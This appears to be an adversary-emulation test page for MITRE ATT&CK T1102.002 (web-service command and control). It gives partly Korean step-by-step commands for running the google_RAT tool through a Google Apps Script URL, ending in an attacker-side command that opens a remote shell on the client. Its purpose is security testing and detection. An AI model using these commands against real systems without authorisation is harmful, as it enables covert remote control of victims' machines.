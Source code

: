 # T1102.002A - Web Service: Bidirectional Communication
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1102/002/)
<blockquote>Adversaries may use an existing, legitimate external Web service as a means for sending commands to and receiving output from a compromised system over the Web service channel. Compromised systems may leverage popular websites and social media to host command and control (C2) instructions. Those infected systems can then send the output from those commands back over that Web service channel. The return traffic may occur in a variety of ways, depending on the Web service being utilized. For example, the return traffic may take the form of the compromised system posting a comment on a forum, issuing a pull request to development project, updating a document hosted on a Web service, or by sending a Tweet.

Popular websites and social media acting as a mechanism for C2 may give a significant amount of cover due to the likelihood that hosts within a network are already communicating with them prior to a compromise. Using common services, such as those offered by Google or Twitter, makes it easier for adversaries to hide in expected noise. Web service providers commonly use SSL/TLS encryption, giving adversaries an added level of protection. </blockquote>

## Atomic Tests

- [Atomic Test #1 - C2 using Google Apps Script - google_RAT](#atomic-test-1--- C2--using-GAS-RAT)

<br/>

## Atomic Test #1 - C2 using Google Apps Script - google_RAT
C2 using Google Apps Script - google_RAT

**Supported Platforms:** Windows 

#### Run it with these steps! 

#### 아래 순서대로 진행
사전 설정 완료
+ 구글 계정 생성
+ Google Apps Script 설정
+ Google 스프레드 시트 설정 

클라이언트 
1. Open cmd.exe 
2. cd <test.py 위치>
3. python test.py -k test https://script.google.com/macros/s/AKfycbzVbXkfOAJTmzxSUDeeuyYW-RJ6CMrFzF8bWtXObtSQWMmzINoXgi2isks5S2m6q6X7kw/exec

공격자 서버

4. cd /home/kali/바탕화면/google_RAT-master
5. python3 master.py -k test https://script.google.com/macros/s/AKfycbzVbXkfOAJTmzxSUDeeuyYW-RJ6CMrFzF8bWtXObtSQWMmzINoXgi2isks5S2m6q6X7kw/exec    
6. lsc
7. shell <uuid>

<br/>